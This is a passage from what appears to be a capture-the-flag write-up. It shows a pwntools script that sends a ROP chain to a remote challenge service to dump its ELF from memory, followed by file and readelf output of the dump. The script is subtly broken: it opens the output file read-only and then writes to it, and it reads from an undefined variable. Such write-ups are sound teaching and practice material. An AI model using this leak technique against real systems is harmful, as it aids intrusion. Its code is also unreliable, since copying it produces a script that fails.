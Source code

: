 We can then either start dumping one page (4096 bytes) at a time from the base
address until we hit an error, or we can simply dump a large amount of bytes all
in one go, assuming that the remote will crash as soon as it tries to read past
the end of the mapped ELF. Either approach works.

```python
REMOTE = remote('triwizard-maze.challs.cyberchallenge.it', 38202)
chain = flat(print_fn, 0, base, 0x10000)
REMOTE.sendlineafter(b'):\n', chain.ljust(1024))

with open('dump.elf', 'rb') as f:
 f.write(r.recvall())

REMOTE.close()
```

A quick check with the [`file(1)`][man-1-file] and [`readelf(1)`][man-1-readelf]
commands tells us that this is indeed a 32-bit x86 ELF and the dump is valid
(all seems in order as `readelf` does not complain):

```none
$ file dump.elf
dump.elf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, stripped

$ readelf -hlSW dump.elf
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x133732b5
  Start of program headers:          52 (bytes into file)
  Start of section headers:          16004 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         6
  Size of section headers:           40 (bytes)
  Number of section headers:         6
  Section header string table index: 5

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .text             PROGBITS        13371000 001000 0022d4 00  AX  0   0  1
  [ 2] .rodata           PROGBITS        133742e0 0032e0 000a71 00   A  0   0 32
  [ 3] .data             PROGBITS        13375d60 003d60 000100 00  WA  0   0 32
  [ 4] .bss              NOBITS          13375e60 003e60 000120 00  WA  0   0 32
  [ 5] .shstrtab         STRTAB          00000000 003e60 000024 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), p (processor specific)

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x13370034 0x13370034 0x000c0 0x000c0 R   0x4
  LOAD           0x000000 0x13370000 0x13370000 0x000f4 0x000f4 R   0x1000
  LOAD           0x001000 0x13371000 0x13371000 0x022d4 0x022d4 R E 0x1000
```

[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search